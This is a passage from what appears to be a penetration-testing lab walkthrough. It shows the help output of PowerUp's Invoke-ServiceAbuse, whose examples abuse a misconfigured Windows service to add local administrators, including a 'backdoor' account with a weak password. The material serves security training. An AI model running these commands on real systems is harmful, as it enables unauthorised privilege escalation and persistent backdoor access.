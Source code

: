 Abusing it with the following command we're able to perform privilege escalation adding our student account to local admin group.

Do to it correctly, first to proceed, we can check abuse function examples:

```powershell
help Invoke-ServiceAbuse -Example
```

```powershell
NAME
    Invoke-ServiceAbuse

SYNOPSIS
    Abuses a function the current user has configuration rights on in order
    to add a local administrator or execute a custom command.

    Author: Will Schroeder (@harmj0y)
    License: BSD 3-Clause
    Required Dependencies: Get-ServiceDetail, Set-ServiceBinaryPath


    -------------------------- EXAMPLE 1 --------------------------

    PS C:\>Invoke-ServiceAbuse -Name VulnSVC

    Abuses service 'VulnSVC' to add a localuser "john" with password
    "Password123! to the  machine and local administrator group


    -------------------------- EXAMPLE 2 --------------------------

    PS C:\>Get-Service VulnSVC | Invoke-ServiceAbuse

    Abuses service 'VulnSVC' to add a localuser "john" with password
    "Password123! to the  machine and local administrator group


    -------------------------- EXAMPLE 3 --------------------------

    PS C:\>Invoke-ServiceAbuse -Name VulnSVC -UserName "TESTLAB\john"

    Abuses service 'VulnSVC' to add a the domain user TESTLAB\john to the
    local adminisrtators group.


    -------------------------- EXAMPLE 4 --------------------------

    PS C:\>Invoke-ServiceAbuse -Name VulnSVC -UserName backdoor -Password password -LocalGroup "Power Users"

    Abuses service 'VulnSVC' to add a localuser "backdoor" with password
    "password" to the  machine and local "Power Users" group
```
